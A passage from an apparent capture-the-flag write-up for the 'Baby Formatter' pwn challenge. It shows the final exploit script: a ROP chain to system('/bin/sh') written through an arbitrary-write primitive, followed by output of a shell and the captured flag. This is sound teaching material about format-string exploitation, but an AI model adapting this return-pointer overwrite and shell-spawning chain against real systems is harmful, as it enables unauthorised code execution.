 ```py
binary_base = binary_leak - 0x14d1
saved_ret_pointer = stack_leak + 0x18
payload_start_location = saved_ret_pointer + 16
pop_rbp_ret = binary_base + 0x0000000000001223

# [=============== PREPARE PAYLOAD ===============]
rop = ROP(libc)
payload  = b''
payload += p64( libc_base + rop.find_gadget(['ret']).address )
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
payload += p64( libc_base + next(libc.search(b'/bin/sh\x00')) )
payload += p64( libc_base + libc.symbols['system'] )
print('Payload length : {} bytes'.format(len(payload)))

# [================ SEND PAYLOAD =================]
for i, c in enumerate(payload):
    arb_write_single(payload_start_location + i , c)
    print('Sending payload {:.2f}%...'.format( (i * 100) / (len(payload) - 1) ), end='\n' if i == len(payload) - 1 else '\r' )

# [============ OVERWRITE RET POINTER ============]
arb_write_double(saved_ret_pointer, pop_rbp_ret & 0xffff)

# [================= START SHELL =================]
p.clean()
p.interactive()
```
{: file="pwn.py"}

```console
> python pwn.py
[*] '/home/vulnx/Games/CTFs/BackdoorCTF/pwn/Baby Formatter/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
Payload length : 32 bytes
Sending payload 100.00%...
$ ls
chall
flag
ld-linux-x86-64.so.2
libc.so.6
$ cat flag
flag{F0rm47_5tr1ng5_4r3_7o0_3asy}
$
```

### FLAG

`flag{F0rm47_5tr1ng5_4r3_7o0_3asy}`